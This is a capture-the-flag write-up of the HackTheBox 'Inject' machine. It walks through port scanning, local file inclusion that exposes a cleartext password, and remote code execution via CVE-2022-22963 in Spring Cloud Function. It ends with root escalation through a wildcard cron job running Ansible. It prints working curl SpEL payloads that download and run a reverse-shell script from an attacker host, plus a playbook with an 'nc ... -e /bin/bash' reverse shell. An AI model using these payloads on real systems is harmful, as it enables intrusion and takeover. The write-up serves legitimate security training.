# Inject Machine

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command ```sudo nmap -sS -p- --min-rate 10000 -v inject.htb```




Once the open ports are known, I began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: ```sudo nmap -sS p22,8080 -sV -O inject.htb```



### Port Scan Results



### HTTP Enumeration

The first step taken was to scan using gobuster in order to find directories and other functions in the service. The command used was ```sudo gobuster dir -u http://inject.htb:8080/ -w /usr/share/wfuzz/wordlist/general/big.txt -x php,txt,zip,py```



As it can be seen in the picture above, “/upload” is found. If visited, it allows a user to upload images to the web server and then, takes the user to another URL where it shows the recently uploaded picture.



If we click on “View your Image” the web server then take us to a new URL ```/show_image?img=1 (5).jpg``` where it shows the picture.



Next thing tried was to check if there was some kind of LFI on the “img” parameter using burpsuite and an LFI dictionary (“https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt”).




As it can be seen, LFI vulnerability is found. The next step is to search for juicy files. A cleartext password for user “phil” is found on “/home/frank/.m2/settings.xml” (DocPhillovestoInject123). 



Another juicy file is found ‘/var/www/WebApp/pom.xml’, inside it, we can see all the dependen-cies used in the application. As it can be seen, it uses spring-cloud-function-web which has a known vulnerability **CVE-2022-22963**



## Initial Access - RCE

**Vulnerability Explanation** Spring Cloud Function versions 3.1.6, 3.2.2 and older versions are vulnerable to RCE if routing functionality is used. It is possible for a user to provide an specially crafted SpEL as a routing-expression that may result in remote code execution (“https://nvd.nist.gov/vuln/detail/CVE-2022-22963”).

**Vulnerability Fix**: Users should upgrade to version 3.1.7 or 3.2.3. (“https://spring.io/security/cve-2022-22963”)

**Severity**: Critical

**Steps to reproduce the attack**: In order to reproduce the attack, a POST HTTP request must be made. Curl command is the following: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("command-to-execute")' --data-raw 'data' -v``` .  We will obtain RCE and execute commands. PoC obtained here https://github.com/me2nuk/CVE-2022-22963

To obtain a shell in the machine, the following steps were taken:

1.	Create a local sh file containing a bash reverse shell called “shell.sh”. And start a python simple http server on port 8000 in order to serve “shell.sh”



3.	Download it on the victim using: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.7:8000/shell.sh -O /tmp/shell.sh ")' --data-raw 'data' -v```

4.	Make it executable using: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("chmod +x /tmp/shell.sh ")' --data-raw 'data' -v```

5.	Execute it with: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("./tmp/shell.sh ")' --data-raw 'data' -v```

6.	Receive the reverse connection and get the shell.



## Post-Exploitation

Once accessed, let's retrieve the user flag.

First step is to use the previously found cleartext credential and try to access as user “phil”.





## Privilege Escalation - Cron Process Exploitation

**Vulnerability Explanation**: Each two minutes a cron process is executed as Root (ansible-parallel). This cron job does the following:

1.	Deletes everything in “/opt/automation/tasks/”, then copies there “/root/playbook_1.yml”.

2.	Executes ```/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml```.

3.	As a result of the previous command, each yml file is executed using binary “ansible-playbook” ```/usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml```


Placing a malicious yml file in “/opt/automation/tasks” in the right moment, will result in this file getting executed with elevated privileges (it is important to take into account the race condition that exists as the cron job firstly deletes everything in the folder)

**Vulnerability Fix**: Avoid using wildcards to specify a cron job argument that is run as root.

**Severity**: Critical

**Steps to reproduce the attack**:

1.   Create a malicious yml file with the following content:

```
-  hosts : localhost
   tasks:
    - name: Check pwn
    ansible.builtin.shell: nc 10.10.14.12 4444 -e /bin/bash
    args:
      executable: /bin/bash
```


2.   Create a bash script to win the race condition with the following content:

```

while true;
do
    if ! [ -e /opt/automation/tasks/pwnbook.yml ]; then
      cp pwnbook.yml /opt/automation/tasks/pwnbook.yml
    fi
done

```

3.    Listen on port 4444 on the attacking machine, execute the bash script in the background and wait for the incoming connection.


